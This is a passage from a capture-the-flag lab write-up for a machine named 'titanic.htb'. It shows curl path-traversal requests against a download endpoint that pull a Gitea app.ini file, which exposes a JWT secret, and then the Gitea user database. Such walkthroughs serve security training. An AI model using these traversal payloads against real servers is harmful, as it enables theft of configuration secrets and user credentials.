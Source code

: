 From this, we identified the volume mapping:

/home/developer/gitea/data:/data


Using the path traversal vulnerability, we retrieved the app.ini configuration file containing the database location:

```
curl "http://titanic.htb/download?ticket=..//..//..//..//..//home/developer/gitea/data/gitea/conf/app.ini"
```

This revealed critical database information.

```jsx
[server]
APP_DATA_PATH = /data/gitea
DOMAIN = gitea.titanic.htb
SSH_DOMAIN = gitea.titanic.htb
HTTP_PORT = 3000
ROOT_URL = http://gitea.titanic.htb/
DISABLE_SSH = false
SSH_PORT = 22
SSH_LISTEN_PORT = 22
LFS_START_SERVER = true
LFS_JWT_SECRET = OqnUg-uJVK-l7rMN1oaR6oTF348gyr0QtkJt-JpjSO4
OFFLINE_MODE = true

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

```
Using the path traversal vulnerability, we can directly download the Gitea database:

```jsx
┌──(kali㉿kali)-[~]
└─$ curl -o gitoea.db "http://titanic.htb/download?ticket=..//..//..//..//..//home/developer/gitea/data/gitea/gitea.db"

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  5 2036k    5  105k    0     0  26763      0  0:01:17  0:00:04  0:01:13 26759
100 2036k  100 2036k    0     0   112k      0  0:00:18  0:00:18 --:--:--  174k
```

Once downloaded, we can analyze the database structure. There are multiple tables, but we focus on the user table.

